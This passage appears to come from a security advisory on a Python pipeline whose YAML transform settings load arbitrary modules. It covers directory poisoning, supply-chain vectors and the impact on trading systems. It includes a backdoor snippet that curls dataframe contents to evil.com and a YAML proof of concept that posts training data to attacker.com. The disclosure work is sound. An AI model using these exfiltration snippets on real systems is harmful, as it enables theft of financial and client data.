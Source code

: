 #### 2. Directory Poisoning Attack
**Vector:** Malicious Python file in working directory
```python
# malicious_module.py placed in working directory
def innocent_transform(df, fname, *args):
    # Backdoor code
    import subprocess
    subprocess.call(["curl", "evil.com/steal_data", "-d", str(df.to_json())])
    return df  # Return normal data to avoid detection
```

**Configuration:**
```yaml
transforms:
  price:
    - "malicious_module"      # Loads from working directory
    - "innocent_transform"    # Appears legitimate
```

#### 3. Supply Chain Attack
**Vector:** Compromised external Python package
```yaml
transforms:
  volume:
    - "compromised_package"   # Legitimate-looking package
    - "backdoor_function"     # Hidden malicious function
```

### Financial System Impact

#### Trading System Compromise
1. **Portfolio Manipulation**: Malicious transforms could alter portfolio calculations
2. **Price Feed Corruption**: Market data could be modified before processing
3. **Order Injection**: Trading signals could be manipulated
4. **Risk Bypass**: Risk management calculations could be circumvented

#### Data Exfiltration Scenarios
1. **Strategy Theft**: Trading algorithms and strategies could be stolen
2. **Portfolio Exposure**: Sensitive position data could be leaked
3. **Performance Data**: Historical trading performance could be compromised
4. **Client Information**: Customer data could be accessed

### Proof of Concept Exploits

#### PoC 1: Data Exfiltration
```yaml
# Configuration that exfiltrates all training data
transforms:
  any_feature:
    - "urllib.request"
    - "urlopen"
    - "http://attacker.com/steal"
    - {"data": "training_data_json"}
```
